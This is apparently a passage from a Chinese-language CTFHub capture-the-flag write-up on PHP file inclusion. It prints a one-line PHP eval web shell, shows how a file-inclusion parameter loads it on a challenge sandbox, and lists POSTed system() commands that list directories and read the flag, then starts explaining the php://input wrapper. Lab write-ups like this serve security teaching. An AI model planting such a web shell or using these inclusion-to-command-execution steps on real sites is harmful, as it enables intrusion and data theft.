 ```
#函数查找字符串在另一字符串中第一次出现的位置（区分大小写） 
strpos("You love php, I love php too!","php"); 
```

发现一个shell

```
<?php eval($_REQUEST['ctfhub']);?>
预定义的 $_REQUEST 变量包含了 $_GET、$_POST 和 $_COOKIE 的内容

$_REQUEST 变量可用来收集通过 GET 和 POST 方法发送的表单数据

$_REQUEST 变量既可以收集GET方法发送的数据，也可以接受POST方法接受的数据 
```

直接蚁剑吧，发现是txt文件，没办法连接

因为题目给出：

i have a [shell](shell.txt), how to use it ?

所以构造参数：

http://challenge-799c3c5c6ecef465.sandbox.ctfhub.com:10080/?file=shell.txt

然后使用hackbar的postdata传参

ctfhub=system(‘ls’);

ctfhub=system(‘ls /’);

ctfhub=system(‘cat /flag’);

得到flag

#### php://input

题型：php伪协议

```
php://input特点如下:

1）、Coentent-Type仅在取值为application/x-www-data-urlencoded和multipart/form-data两种情况下，PHP才会将http请求数据包中相应的数据填入全局变量$_POST

2）、PHP不能识别的Content-Type类型的时候，会将http请求包中相应的数据填入变量$HTTP_RAW_POST_DATA

3）、只有Coentent-Type为multipart/form-data的时候，PHP不会将http请求数据包中的相应数据填入php://input，否则其它情况都会。填入的长度，由Coentent-Length指定。

4）、只有Content-Type为application/x-www-data-urlencoded时，php://input数据才跟$_POST数据相一致。

5）、php://input数据总是跟$HTTP_RAW_POST_DATA相同，但是php://input比$HTTP_RAW_POST_DATA更凑效，且不需要特殊设置php.ini

6）、PHP会将PATH字段的query_path部分，填入全局变量$_GET。通常情况下，GET方法提交的http请求，body为空。

总结起来就是，在用$_POST获取不到由APP或者一些接口的回调数据时,就用php://input试试 
```

